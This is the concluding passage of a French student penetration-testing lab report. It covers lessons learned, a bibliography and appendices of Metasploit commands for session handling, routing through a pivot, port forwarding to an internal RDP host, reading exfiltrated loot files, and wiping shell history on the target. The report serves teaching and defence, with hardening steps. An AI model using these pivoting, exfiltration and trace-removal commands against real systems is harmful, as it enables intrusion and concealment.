		\item ✅ Configurer un pivot réseau pour accéder à un réseau LAN isolé.
		\item ✅ Réaliser une reconnaissance approfondie du réseau interne.
		\item ✅ Tenter l'exploitation de vulnérabilités historiques (MS08-067, MS17-010).
		\item ✅ Exfiltrer 121 KB de données sensibles (comptes, configurations, services).
		\item ✅ Configurer un tunnel (port forwarding) pour exposer des services internes.
		\item ✅ Documenter l'intégralité de la chaîne d'attaque avec des preuves forensiques.
	\end{itemize}
	
	\section{Leçons Apprises}
	
	\subsection{Du Point de Vue de l'Attaquant}
	
	\begin{enumerate}
		\item \textbf{La segmentation n'est pas une barrière absolue :} Un système compromis dans la DMZ devient un pont vers des réseaux internes supposément protégés.
		
		\item \textbf{Les services legacy sont des portes d'entrée :} Telnet, bien que désactivé par défaut sur les OS modernes, reste présent sur d'anciens systèmes et constitue un vecteur d'attaque critique.
		
		\item \textbf{L'élévation de privilèges est souvent triviale :} La mauvaise configuration de sudo (ALL:ALL) transforme un compte utilisateur basique en accès root.
		
		\item \textbf{La persistence via sessions multiples est essentielle :} Maintenir plusieurs canaux C2 assure la résilience face aux déconnexions.
	\end{enumerate}
	
	\subsection{Du Point de Vue du Défenseur}
	
	\begin{enumerate}
		\item \textbf{La défense en profondeur est cruciale :} Une seule couche de sécurité (pare-feu pfSense) n'a pas suffi à empêcher le pivoting. Les pare-feu hôte (UFW) et l'IPS (Fail2Ban) auraient dû être correctement configurés.
		
		\item \textbf{La détection est aussi importante que la prévention :} L'absence de SIEM ou d'IDS hôte a permis à l'attaque de progresser sans alerte.
		
		\item \textbf{L'audit régulier des configurations est nécessaire :} Les privilèges sudo excessifs et X11 Forwarding activé sont des erreurs évitables par des revues de configuration.
		
		\item \textbf{Les systèmes obsolètes sont des points faibles :} Windows XP, même avec patches, représente un risque inacceptable en 2026.
	\end{enumerate}
	
	\section{Conformité avec les Objectifs Pédagogiques}
	
	\begin{table}[H]
		\centering
		\renewcommand{\arraystretch}{1.4}
		\setlength{\arrayrulewidth}{0.5pt}
		\begin{tabular}{p{7cm} >{\centering\arraybackslash}p{2.5cm} p{3cm}}
			\arrayrulecolor{tableborder}
			\hline
			\tableheadcolor
			\textcolor{tableheadfg}{\textbf{Objectif Pédagogique}} &
			\textcolor{tableheadfg}{\textbf{Statut}} &
			\textcolor{tableheadfg}{\textbf{Chapitre}} \\
			\hline
			\rowcolor{tablerowalt}
			Compromission initiale d'un service vulnérable & ✅ Complet & Chapitre 3 \\
			Établissement d'un canal C2 Meterpreter & ✅ Complet & Chapitre 4 \\
			\rowcolor{tablerowalt}
			Configuration de pivoting réseau & ✅ Complet & Chapitre 5 \\
			Reconnaissance latérale via pivot & ✅ Complet & Chapitre 6 \\
			\rowcolor{tablerowalt}
			Tentatives d'exploitation avancée & ✅ Complet & Chapitre 6 \\
			Collecte d'intelligence (post-exploitation) & ✅ Complet & Chapitre 7 \\
			\rowcolor{tablerowalt}
			Documentation méthodologique & ✅ Complet & Ensemble \\
			Formulation de recommandations & ✅ Complet & Chapitre 8 \\
			\hline
		\end{tabular}
		\caption{Validation des Objectifs Pédagogiques}
		\label{tab:objectives-validation}
	\end{table}
	
	\section{Perspectives et Travaux Futurs}
	
	Ce travail pratique pourrait être étendu dans les directions suivantes :
	
	\begin{enumerate}
		\item \textbf{Attaque de la Couche Application :}
		\begin{itemize}
			\item Exploitation de DVWA (SQL Injection, XSS, CSRF).
			\item Élévation de privilèges via vulnérabilités web.
		\end{itemize}
		
		\item \textbf{Attaques Active Directory :}
		\begin{itemize}
			\item Déployer un contrôleur de domaine Windows Server dans le LAN.
			\item Tester Kerberoasting, Pass-the-Hash, Golden Ticket.
		\end{itemize}
		
		\item \textbf{Évasion et Persistence Avancées :}
		\begin{itemize}
			\item Techniques anti-forensiques (log wiping, timestomping).
			\item Rootkits et backdoors persistants.
		\end{itemize}
		
		\item \textbf{Blue Team Exercises :}
		\begin{itemize}
			\item Déployer Wazuh/ELK Stack pour détecter l'attaque en temps réel.
			\item Créer des règles YARA pour identifier les payloads Meterpreter.
			\item Simuler une réponse à incident (Incident Response).
		\end{itemize}
	\end{enumerate}
	
	\section{Conclusion Finale}
	
	Ce TP3 a démontré que la sécurité périmétrique seule ne suffit pas à protéger une infrastructure moderne. La compromission d'un seul système mal sécurisé (serveur DMZ avec Telnet) a permis :
	\begin{itemize}
		\item L'accès à un réseau interne supposément isolé (LAN).
		\item L'exfiltration de données sensibles (comptes, configurations).
		\item La création de tunnels permettant d'exposer des services internes (RDP).
	\end{itemize}
	
	Les recommandations formulées dans ce rapport constituent une feuille de route pour améliorer la posture de sécurité de l'infrastructure. L'application rigoureuse de ces mesures (désactivation de Telnet, durcissement SSH, segmentation stricte, déploiement d'un SIEM) permettrait de bloquer efficacement ce type d'attaque.
	
	\textbf{Citation finale :}
	\begin{quote}
		\textit{"The only truly secure system is one that is powered off, cast in a block of concrete and sealed in a lead-lined room with armed guards."}\\
		--- Gene Spafford, Computer Security Expert
	\end{quote}
	
	Notre objectif n'est pas la sécurité absolue (impossible), mais la réduction du risque à un niveau acceptable via des contrôles techniques, organisationnels et humains robustes.
	
	% ------------------------------------------------------------------------------
	% BIBLIOGRAPHIE
	% ------------------------------------------------------------------------------
	\begin{thebibliography}{99}
		
		\bibitem{tp1-report}
		Bella, Y., El Habti, O., et El Habti, S. \textit{Rapport Technique : Architecture Réseau et Sécurité - TP1}. ESTK IDRS, 2026.
		
		\bibitem{tp2-report}
		Bella, Y., El Habti, O., et El Habti, S. \textit{Rapport Technique : Configuration de Services et Reconnaissance Active - TP2}. ESTK IDRS, 2026.
		
		\bibitem{metasploit-unleashed}
		Offensive Security. \textit{Metasploit Unleashed}. Offensive Security, 2024. Consulté sur \url{https://www.offensive-security.com/metasploit-unleashed/}
		
		\bibitem{mitre-attack}
		MITRE Corporation. \textit{ATT\&CK Framework}. MITRE, 2024. Consulté sur \url{https://attack.mitre.org/}
		
		\bibitem{sans-pivoting}
		SANS Institute. \textit{Network Pivoting Techniques}. SANS Penetration Testing, 2023. Consulté sur \url{https://www.sans.org/white-papers/}
		
		\bibitem{ms08-067}
		Microsoft Security Response Center. \textit{MS08-067: Vulnerability in Server Service}. Microsoft, octobre 2008. Consulté sur \url{https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067}
		
		\bibitem{ms17-010}
		Microsoft Security Response Center. \textit{MS17-010: Security Update for Windows SMB Server}. Microsoft, mars 2017. Consulté sur \url{https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010}
		
		\bibitem{rapid7-metasploit}
		Rapid7. \textit{Metasploit Framework Documentation}. Rapid7, 2024. Consulté sur \url{https://docs.rapid7.com/metasploit/}
		
		\bibitem{nist-pivoting}
		NIST. \textit{SP 800-115: Technical Guide to Information Security Testing}. National Institute of Standards and Technology, 2008. Consulté sur \url{https://csrc.nist.gov/publications/detail/sp/800-115/final}
		
		\bibitem{owasp-pentesting}
		OWASP Foundation. \textit{Penetration Testing Methodologies}. OWASP, 2024. Consulté sur \url{https://owasp.org/www-project-web-security-testing-guide/}
		
		\bibitem{ptes}
		Penetration Testing Execution Standard. \textit{PTES Technical Guidelines}. PTES, 2014. Consulté sur \url{http://www.pentest-standard.org/}
		
		\bibitem{sans-post-exploitation}
		Strand, J. \textit{Pivoting and Post-Exploitation}. SANS Institute, 2022.
		
	\end{thebibliography}
	
	% ------------------------------------------------------------------------------
	% ANNEXES
	% ------------------------------------------------------------------------------
	\appendix
	\chapter{Annexes Techniques}
	
	\section{Commandes de Diagnostic et Validation}
	
	\subsection{Vérification des Sessions Meterpreter}
	\begin{lstlisting}[caption=Gestion des Sessions Metasploit]
		# Lister toutes les sessions actives
		sessions -l
		
		# Interagir avec une session spécifique
		sessions -i 2
		
		# Placer une session en arrière-plan
		background
		
		# Tuer une session
		sessions -k 2
		
		# Tuer toutes les sessions
		sessions -K
	\end{lstlisting}
	
	\subsection{Commandes de Routage Metasploit}
	\begin{lstlisting}[caption=Gestion des Routes]
		# Ajouter une route
		route add 192.168.20.0/24 2
		
		# Afficher toutes les routes
		route print
		
		# Supprimer une route
		route delete 192.168.20.0/24 2
		
		# Flush toutes les routes
		route flush
	\end{lstlisting}
	
	\subsection{Commandes de Port Forwarding}
	\begin{lstlisting}[caption=Gestion des Tunnels]
		# Créer un port forward
		portfwd add -l 3389 -p 3389 -r 192.168.20.50
		
		# Lister les forwards actifs
		portfwd list
		
		# Supprimer un forward spécifique
		portfwd delete -l 3389 -p 3389 -r 192.168.20.50
		
		# Supprimer tous les forwards
		portfwd flush
	\end{lstlisting}
	
	\section{Extraction des Données de Loot}
	
	\begin{lstlisting}[caption=Consultation des Fichiers de Loot]
		# Lister tous les fichiers de loot
		ls -lh ~/.msf4/loot/
		
		# Afficher les comptes utilisateurs
		cat ~/.msf4/loot/*721088.txt
		
		# Afficher les services actifs
		cat ~/.msf4/loot/*265844.txt
		
		# Afficher les connexions actives
		cat ~/.msf4/loot/*196858.txt
		
		# Afficher la configuration SSH
		cat ~/.msf4/loot/*801493.txt
	\end{lstlisting}
	
	\section{Nettoyage et Remédiation}
	
	\subsection{Suppression des Traces d'Attaque}
	\begin{lstlisting}[caption=Commandes de Nettoyage sur la Cible]
		# Tuer les processus Meterpreter
		sudo kill -9 4907 4908
		
		# Supprimer le payload
		sudo rm -f /tmp/meterpreter.elf
		
		# Vérifier les connexions actives
		sudo netstat -tulpn | grep 192.168.100.150
		
		# Nettoyer l'historique Bash
		history -c
		rm ~/.bash_history
		
		# Vérifier les tâches cron suspectes
		crontab -l
		sudo crontab -l
	\end{lstlisting}
	
	\subsection{Hardening Post-Incident}
	\begin{lstlisting}[caption=Mesures de Durcissement Immédiates]
		# Désactiver Telnet
		sudo systemctl stop inetutils-inetd
		sudo systemctl disable inetutils-inetd
		sudo apt remove inetutils-inetd -y
		
		# Changer le mot de passe compromis
		sudo passwd telnetuser
		
		# Restreindre sudo
		sudo visudo
		# Remplacer "ALL=(ALL:ALL) ALL" par des commandes spécifiques
		
		# Redémarrer les services
		sudo systemctl restart ssh
		sudo systemctl restart fail2ban
	\end{lstlisting}
	
	\section{Glossaire des Termes Techniques}
	
	\begin{description}
		\item[C2 (Command \& Control)] Infrastructure permettant à un attaquant de contrôler des systèmes compromis à distance.
		
		\item[Lateral Movement] Déplacement d'un attaquant à travers un réseau après compromission initiale, pour atteindre d'autres systèmes.
		
		\item[Meterpreter] Agent post-exploitation avancé développé par Rapid7 pour Metasploit Framework.
		
		\item[Pivoting] Technique consistant à utiliser un système compromis comme point de rebond pour accéder à des réseaux inaccessibles directement.
		
		\item[Port Forwarding] Redirection de trafic réseau d'un port local vers un port distant via un tunnel.
		
		\item[Post-Exploitation] Phase d'une attaque survenant après la compromission initiale, visant à collecter des données et maintenir l'accès.
		
		\item[Reverse Shell] Shell interactif où la cible se connecte à l'attaquant (inverse de bind shell).
		
		\item[Session] Connexion active entre un agent Meterpreter et le framework Metasploit.
		
		\item[Shellcode] Code machine exécutable injecté dans un processus vulnérable.
		
		\item[Staging] Processus en deux étapes où un petit payload initial télécharge le payload complet (utilisé pour contourner les limitations de taille).
	\end{description}
	
	\end{document}